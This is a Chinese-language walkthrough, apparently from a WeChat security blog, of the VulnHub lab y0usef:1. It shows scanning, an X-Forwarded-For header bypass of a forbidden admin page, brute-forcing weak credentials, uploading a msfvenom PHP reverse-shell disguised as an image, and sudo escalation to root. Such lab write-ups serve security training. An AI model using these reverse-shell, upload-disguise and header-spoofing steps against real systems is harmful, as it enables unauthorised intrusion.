 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/KYj44PtGAZ8mKO1adWNc6Q)

**点击蓝字**

**关注我们**

**0x00**

靶机信息

靶机：y0usef:1

难度：简单

下载：https://www.vulnhub.com/entry/y0usef-1,624/

**0x01**

靶机信息

使用 arp-scan 工具扫描当前网段，寻找目标靶机 IP

```
arp-scan-l
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylSJdPHHMVibu7jHza0W95Ec6B5jox9tpLibDykoSSBibTD9IVhQE89Wnvg/640?wx_fmt=png)

Nmap 扫描端口

```
nmap-p 1-65535 192.168.5.217
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibyl4Na0Rk28W4iaGeO5cmqIgmrtoicIJIoMfwAUicECiakamcbryK0Trt9QibQ/640?wx_fmt=png)

只开放了 22，80 端口

然而 Dirb 扫描不到目录的可能字典原因

使用 Dirbsearch 扫描目录

```
Python3 dirsearch.py -u http://192.168.5.217 -e php
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylSeOcejJrgxcQJE69IRc4UE4o5Xjc00BE1xKlJu0Cbg1EYD4BuluWLw/640?wx_fmt=png)

发现 3 个页面，后面两个访问页面都一样，访问 adminstration 页面时出现你没有访问文件权限扫描时 403 响应应该资源是存在需要特定条件才能访问到

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibyl0ric98uuxDnpgibLu11txnxVsicAeBELvkxjPchxHj6bE5CSjnz4MBpMg/640?wx_fmt=png)

尝试在请求头加个请求 IP 绕过启动 Burp Suite 抓包进行改请求头为本地地址访问

```
x-forwarede-for: 127.0.0.1
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylQicyCMiaWmicWV5782rAr0E5HLlSBDCsUExvSM51ibT8b33lQJIBs1AGicA/640?wx_fmt=png)

点击发送后果然显示出登录页面了

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylHUrVYYUlAicv4z025JM64eo4iaGiaZia92L6kYay33nWxkqvMWRDXRQBWg/640?wx_fmt=png)

由于只开放了两个端口没什么可以利用的信息只能爆破账号密码

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylwIrncMJicoPdQibpIpb6PYDk0aSAH3p4QBbHia3Sn6jvOfdIgjzVWiaMBw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylweHldW1OnBC7qJjvQpswa36dlsprwZOFxdp7N2libae4NR4dSl5ehmg/640?wx_fmt=png)

爆破使用弱口令 top100 字典即可开始结果账号密码全都时 admin 惊呼

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylf6VTL32KTcsst9SPzLQI1fEXrD9tHxHNfWlMwFwvsfWwo7XiadhPkZA/640?wx_fmt=png)

然后直接输入账号密码登录记得请求头加伪造本地 IP 地址，登录成功后会发现有个上传文件地方

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibyl2OYR4ySxOgIdUwCRsLvHgvNZ0Kgcj2iaSCF3zFLDTBAkPZs5SxIP59Q/640?wx_fmt=png)

**0x02**

漏洞利用

使用 msfvenom 生成一个 php 木马

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=攻击机IP LPORT=连接端口 -f raw >shell.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylnZQlkJfpIpb3sBSkIuqI5cEh6Ce6I0E2ibSAhRJuiadyM7mBC1lnbGrg/640?wx_fmt=png)

用 msfvenom 生成 php 木马记得去除生成木马前面注释符

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylkhibC7WiaCdak9LFHzxrLG3lhl2f6RdAa0G3RlMwotUIOBEibMW0Bzziag/640?wx_fmt=png)

然后将木马文件伪装成图片然后上传

```
mv shell.phpshell.png
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylwCGt1Ymzxv4zroiaUWWosFI9dicdBXKIgRXFBsic7ibyUKjNX67ApvQWlg/640?wx_fmt=png)

上传完成回显了路径

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylx3PzyPKvBn8oNyCd4lLQ4pg2rRZse3clqSUWAobOnR79OPeASnLiaKw/640?wx_fmt=png)

上传成功后启动 msfconsole 进入监听模块加载生成木马的 payload 然后设置生成马的攻击机 IP 以及监听端口开启攻击

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylZ7Rf6WJU1gX3VMiaktjKmEyW6SQ7e64LHo8hrLbvuH5e1nYzLEnnMBQ/640?wx_fmt=png)

接下来访问上传木马文件路径

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylGQ0Dy5ib6VAo4UTNN34yzibqH0micDXia8VxJRZVgfOMWSBibl8tehFUzibQ/640?wx_fmt=png)

msfconsloe 上线然后查看权限以及反弹真实终端

```
python-c 'import pty;pty.spawn("/bin/bash")'
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylTS8Cb9fgUcp0jtibtwrkTsRcia5ib0gL5ZKu80CgBGk7N7amkIPdZK6mA/640?wx_fmt=png)

访问 / home 目录查看到一个 user.txt 文件内容是 Base64 加密的直接使用 Burp Suite 解密是一个 ssh 用户账号和密码

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibyl2qvK8oBgAlmu862fusYoMXOhibHesJZGAw3ExI96XWib7Iq3P3yMbRPg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylvBanyYTP6t71IRibK50qhDxOxFPk6CiamJRs2AXAOagpeibyOrjGZx6kQ/640?wx_fmt=png)

账号密码为 yousef 和 yousef123

直接 ssh 输入账号密码登录但无法访问 / root 目录需要进行提权

```
ssh yousef@192.168.5.217
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylVmgibP78Rn5ljqVDtU7YiciaGJFp7ib6MMeqydXibmG8mEvKBMia9kGCxjpA/640?wx_fmt=png)

**0x03**

靶机提权  

直接 sudo -l 一下结果直接输入的是登录用户密码就验证成功了

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylT0TnWzfklPiaYBGkxOAm4q4adlC6qAZGwLYFQu3nP6iapwfq3iaRY6cOA/640?wx_fmt=png)

然后 sudo su 切换用户就切换到 root 用户直接进入 root 目录下查看 user.txt 文件提权到此结束

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsfyUN95JnUHmd3wy1H9mibylCibGm0PJEjlrJB9STKgrGDNkZtrpQeAiavKBxK8HfCCLk1OTUQmUbsdQ/640?wx_fmt=png)

 **往期推荐 ·**

  

[Vulnhub 篇 Tomato](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483796&idx=1&sn=1f7ec28258d61d2761627582e8d8ad0e&chksm=eb4ec829dc39413f8a4af153eac211f41d38a23f2823e92037417deea95ecd9aedf57f4a8d29&scene=21#wechat_redirect)  

[Vulnhub 篇 chili](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483773&idx=1&sn=6d0e5dc2f04a1cec1f01b4848a4a1582&chksm=eb4ec8c0dc3941d638f47dcb06959d7ae311a9d5a8d38780f397f899f31766bbadb3606f3f18&scene=21#wechat_redirect)  

[Vulnhub 篇 presidential:1](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483700&idx=1&sn=5a54f2be75bd9bdf0d3a84367ea8afb2&chksm=eb4ec889dc39419f55e446dafd3e5aa26379cbc24b048b3d7624a3fb510ad87847b828b6e1b4&scene=21#wechat_redirect)  

[Vulnhub 篇 Photographerr:1](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483673&idx=1&sn=c1f22eebcf5affb13ae324af7a030449&chksm=eb4ec8a4dc3941b21b2078a6e5d84462ac0ae5253b9176c12d9e3d53539ba27e2d8fbe36f85f&scene=21#wechat_redirect)  

  

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CseiapNicO7sSibTRDsGL5Z0HFgt3nd9ESb0icEBWylwPMDHNKxmpWTdNcf9bGuvc9yB8XGF4lNeWr3ynA/640?wx_fmt=png)